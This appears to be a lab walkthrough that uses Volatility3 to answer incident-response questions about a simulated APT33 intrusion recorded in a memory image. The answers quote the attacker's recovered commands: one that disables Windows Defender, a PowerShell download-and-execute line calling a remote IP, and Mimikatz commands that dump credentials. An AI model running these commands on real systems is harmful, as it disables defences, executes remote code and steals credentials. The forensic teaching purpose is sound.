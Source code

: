 # 🛡️ APT33 -- Operation Cleaver: Memory Forensics & Incident Response Walkthrough

## 🧠 Overview

This exercise simulates a **targeted cyberattack by APT33 (Elfin)**
against a fictional energy company. The attacker chain includes:

-   Initial access via phishing\
-   Exploitation of a known Office vulnerability\
-   Malware delivery (PowerShell loader + RAT)\
-   Privilege escalation\
-   Credential access\
-   Lateral movement\
-   Persistence and likely data exfiltration

A **memory image** was acquired after detection. This step-by-step
walkthrough details how to analyze it to answer the incident response
questions and understand attacker behavior.

------------------------------------------------------------------------

## 🎭 Incident Scenario

**Incident Name:** `APT33 – Operation Cleaver`\
**Target:** Energy Sector Workstation\
**Threat Actor:** APT33 (Elfin -- Iranian cyberespionage group)

A targeted spear-phishing campaign was launched against a workstation in
the energy sector. The attacker delivered a disguised document file
which, once opened, executed a malicious macro designed to weaken the
system's defenses and stage further malicious activity.

This initial access allowed the attacker to download and execute a
secondary component from a remote server. The binary was saved locally
and configured to persist across reboots. Subsequent actions suggest
attempts to gain elevated privileges and establish communication with an
external server --- likely for remote control or further post-compromise
operations.

------------------------------------------------------------------------

## 🔧 Tools Required

-   [Volatility3](https://www.volatilityfoundation.org/)
-   Python 3.x
-   Strings / `xxd` / hash utilities (`sha256sum`)
-   Yara, VirusTotal (optional)
-   ProcDOT (optional for execution chain visualization)
-   HxD or any hex editor

------------------------------------------------------------------------

## 🔬 Step-by-Step Analysis

------------------------------------------------------------------------

### ❓ Q1. What was the first action taken to weaken the system's defenses?

#### 🎯 Objective

Identify what security feature was disabled by the attacker.

#### 🧪 Steps

\`\`\`bash python3 vol.py -f dump.raw windows.cmdline \> cmdline.txt
grep -i 'powershell' cmdline.txt Look for security-related commands. We
find:

powershell Copy Edit Set-MpPreference -DisableRealtimeMonitoring \$true
✅ Answer Set-MpPreference -DisableRealtimeMonitoring \$true

🧠 Analysis This disables Windows Defender's real-time protection --- a
classic first step to avoid detection.

❓ Q2. What CVE is associated with the malicious file delivered during
the initial phishing stage? 🎯 Objective Determine which vulnerability
was exploited through the weaponized document.

🧪 Steps Identify suspicious .png-named file from memory using:

bash Copy Edit volatility3 -f dump.raw windows.filescan \| grep -i png
Dump the file and check its magic bytes:

bash Copy Edit xxd file.png \| head Detect that it's actually a .docx
(ZIP format) -- magic bytes should be 50 4B 03 04.

Fix extension and extract macro using oledump.py.

Analyze macro --- confirm it triggers PowerShell code.

Extract hash and check on VirusTotal:

bash Copy Edit sha256sum malicious.docx VirusTotal confirms:
CVE-2017-11882

✅ Answer CVE-2017-11882

❓ Q3. What is the full URL used to retrieve the PowerShell payload? 🧪
Steps Extract PowerShell commands using:

bash Copy Edit volatility3 -f dump.raw windows.cmdline \| grep -i
'downloadstring' Macro includes:

powershell Copy Edit IEX (New-Object
Net.WebClient).DownloadString("http://185.234.1.56/malware.ps1") ✅
Answer http://185.234.1.56/malware.ps1

❓ Q4. What was the name of the final executable payload downloaded and
run on the system? 🧪 Steps Inspect PowerShell script (malware.ps1) ---
it drops:

powershell Copy Edit payload.exe Confirm presence in memory:

bash Copy Edit volatility3 -f dump.raw windows.filescan \| grep -i
payload.exe Optionally extract:

bash Copy Edit volatility3 -f dump.raw windows.dumpfiles --name
payload.exe ✅ Answer payload.exe

❓ Q5. What tool was used to perform credential dumping? 🧪 Steps Scan
for suspicious tools:

bash Copy Edit volatility3 -f dump.raw windows.pslist \| grep -i
mimikatz Inspect file handles:

bash Copy Edit volatility3 -f dump.raw windows.filescan \| grep -i
mimikatz Mimikatz is found in
C:`\Users`{=tex}`\analyst`{=tex}`\Documents`{=tex}`\mimikatz`{=tex}.

✅ Answer mimikatz.exe

❓ Q6. Which command within Mimikatz was used to extract credentials? 🧪
Steps Dump console input history:

bash Copy Edit volatility3 -f dump.raw windows.consoles Search for
command usage:

cpp Copy Edit privilege::debug sekurlsa::logonPasswords ✅ Answer cpp
Copy Edit privilege::debug\
sekurlsa::logonPasswords